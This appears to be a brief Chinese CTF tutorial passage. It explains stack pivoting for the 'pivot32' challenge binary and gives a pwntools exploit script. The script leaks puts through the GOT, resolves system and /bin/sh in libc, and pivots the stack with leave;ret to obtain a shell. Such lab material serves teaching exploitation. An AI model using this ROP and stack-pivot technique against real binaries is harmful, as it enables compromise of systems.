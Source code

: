在该案例中，栈上可用的空间很小，因此必须找到一个方法来到更多的空间，这时候可以利用栈迁移的方法

```
# http://paste.ubuntu.com/prykV4KDzKS/
from pwn import *

context.log_level = 'debug'
elf = ELF("pivot32")
libc = elf.libc
leave_ret = 0x804889e

io = process("./pivot32")

io.recvuntil("The Old Gods kindly bestow upon you a place to pivot:")
leakaddr = int(io.recvline().strip(),16)
log.info("leakaddr: 0x%x" % leakaddr)

pay1  = ""
pay1 += p32(elf.plt['puts'])
pay1 += p32(0x804873B)  # pwnme() function
pay1 += p32(elf.got['puts'])
io.recvuntil(">")
io.sendline(pay1)

pause()

pay2 = "A"*0x28
pay2 += p32(leakaddr-4) # sae ebp 
pay2 += p32(leave_ret)  # 

io.recvuntil(">")
io.sendline(pay2)
# leak
puts_addr = u32(io.recvn(5)[1:])
libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + libc.search("/bin/sh\x00").next()
log.info("puts_addr: 0x%x" % puts_addr)
log.info("system_addr: 0x%x" % system_addr)

io.recvuntil("The Old Gods kindly bestow upon you a place to pivot:")
leakaddr = int(io.recvline().strip(),16)
log.info("leakaddr: 0x%x" % leakaddr)
pay3 = p32(system_addr)
pay3 += "AAAA"
pay3 += p32(binsh_addr)

io.recvuntil(">")
io.sendline(pay3)

pay2 = "A"*0x28
pay2 += p32(leakaddr-4)
pay2 += p32(leave_ret)

io.recvuntil(">")
io.sendline(pay2)

io.interactive()
```
